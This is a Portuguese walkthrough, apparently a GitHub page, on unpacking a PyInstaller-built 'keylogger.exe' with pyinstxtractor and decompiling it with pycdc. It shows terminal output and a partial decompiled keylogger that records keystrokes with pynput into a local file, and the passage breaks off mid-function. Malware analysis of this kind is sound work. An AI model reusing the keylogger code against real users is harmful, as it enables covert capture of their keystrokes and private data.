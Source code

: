 Ele identifica a versão 2.7 do python no script executavel, e nos recomenda executar o pyinstxtractor com python2 para evitar possiveis erros
<br><br>
Apesar de tudo, uma pasta foi criada "keylogger.exe_extracted"
```
(global) messias@debian:~/binarios/keylogger.exe_extracted$ ls
_hashlib.pyd                 msvcm90.dll              pyimod02_archive.pyc    select.pyd
bz2.pyd                      msvcp90.dll              pyimod03_importers.pyc  struct.pyc
keylogger.py.exe.manifest    msvcr90.dll              python27.dll            unicodedata.pyd
keylogger.py.pyc             pyiboot01_bootstrap.pyc  PYZ-00.pyz              
Microsoft.VC90.CRT.manifest  pyimod01_os_path.pyc     PYZ-00.pyz_extracted    
(global) messias@debian:~/binarios/keylogger.exe_extracted$
(global) messias@debian:~/binarios/keylogger.exe_extracted$ file keylogger.py.pyc 
keylogger.py.pyc: python 2.7 byte-compiled
(global) messias@debian:~/binarios/keylogger.exe_extracted$

```
Dentro ha todos os script necessarios para executar o programa python, como os dll do interpretador do python e tambem um arquivo ".manifest"
```
(global) messias@debian:~/binarios/keylogger.exe_extracted$ cat keylogger.py.exe.manifest
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<assembly manifestVersion="1.0" xmlns="urn:schemas-microsoft-com:asm.v1">
  <assemblyIdentity name="keylogger.py" processorArchitecture="amd64" type="win32" version="1.0.0.0"/>
  <dependency>
    <dependentAssembly>
      <assemblyIdentity name="Microsoft.VC90.CRT" processorArchitecture="amd64" publicKeyToken="1fc8b3b9a1e18e3b" type="win32" version="9.0.30729.9625"/>
      <compatibility xmlns="urn:schemas-microsoft-com:compatibility.v1"/>
    </dependentAssembly>
  </dependency>
  <compatibility xmlns="urn:schemas-microsoft-com:compatibility.v1">
    <application>
      <supportedOS Id="{1f676c76-80e1-4239-95bb-83d0f6d0da78}"/>
      <supportedOS Id="{4a2f28e3-53b9-4441-ba9c-d69d4a4a6e38}"/>
      <supportedOS Id="{e2011457-1546-43c5-a5fe-008deee3d3f0}"/>
      <supportedOS Id="{35138b9a-5d96-4fbd-8e2d-a2440225f93a}"/>
      <supportedOS Id="{8e0f7a12-bfb3-4fe8-b9a5-48fd50a15a9a}"/>
    </application>
  </compatibility>
```
Aqui podemos ver que o script principal do nosso executavel é o "keylogger.py" que ainda esta em formato byte-code, ou seja o script principal do nosso executavel é o keylogger.py.pyc
<br><br>
Usando pycdc podemos tentar decopilar os bytecodes trazendo eles assim para .py mais legivel.
```
(global) messias@debian:~/binarios/keylogger.exe_extracted$ ../pycdc/pycdc keylogger.py.pyc 
# Source Generated with Decompyle++
# File: keylogger.py.pyc (Python 2.7)

from pynput import keyboard
import datetime

def teclas(tecla):
    
    def salva(tecla):
        h = datetime.datetime.now()
        hora = h.strftime('%H:%M')
        with open('teclas.txt', 'a+') as f:
            f.write(hora + ': ' + str(tecla) + '\n')

    
    try:
        salva(tecla.char)
```